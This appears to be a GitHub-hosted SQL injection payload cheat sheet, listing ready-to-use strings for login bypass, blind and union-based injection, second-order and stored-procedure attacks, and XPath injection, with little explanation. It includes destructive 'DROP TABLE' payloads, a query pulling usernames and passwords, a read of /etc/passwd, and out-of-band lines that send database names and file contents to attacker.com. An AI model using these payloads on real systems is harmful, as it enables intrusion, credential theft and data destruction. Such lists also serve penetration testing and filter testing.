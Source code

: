 ### 1. Classic SQL Injection

```sql
-- Bypassing login
' OR '1'='1

-- Commenting out the rest of the SQL
' OR '1'='1' --
' OR '1'='1'/*

-- Adding an additional condition
' OR '1'='1' OR 'a'='a
```

### 2. Blind SQL Injection

```sql
-- Boolean-based Blind SQLi
' AND 1=1 --
' AND 1=2 --

-- Time-based Blind SQLi
' AND IF(1=1, SLEEP(5), 'false') --
' AND IF(1=2, SLEEP(5), 'false') --
```

### 3. Error-Based SQL Injection

```sql
-- Extracting database version
' UNION SELECT NULL, NULL, @@version --
' UNION SELECT NULL, NULL, DATABASE() --
```

### 4. Union-Based SQL Injection

```sql
-- Retrieving user information
' UNION SELECT username, password FROM users --
' UNION SELECT NULL, NULL, version() --
```

### 5. Second Order SQL Injection

```sql
-- Injecting payload during registration
admin'); DROP TABLE users; --

-- Triggering the payload later
SELECT * FROM users WHERE username = 'admin';
```

### 6. Out-of-Band SQL Injection

```sql
-- Using DNS exfiltration
' UNION SELECT load_file(CONCAT('\\\\', (SELECT database()), '.attacker.com\\file')) --
' UNION SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE '\\\\attacker.com\\file' --
```

### 7. Stored Procedure SQL Injection

```sql
-- Dynamic execution in stored procedure
CREATE PROCEDURE getUser(@username nvarchar(50))
AS
EXEC('SELECT * FROM users WHERE username = ''' + @username + '''');

-- Exploiting the stored procedure
'; EXEC sp_msforeachtable 'DROP TABLE ?' --
```

### 8. XPath Injection

```xpath
-- Injecting in XPath query
' or '1'='1
' or '1'='1' or 'a'='a
-- Commenting out the rest of the XPath query
' or '1'='1' -- ]
' or '1'='1' /* ]
```
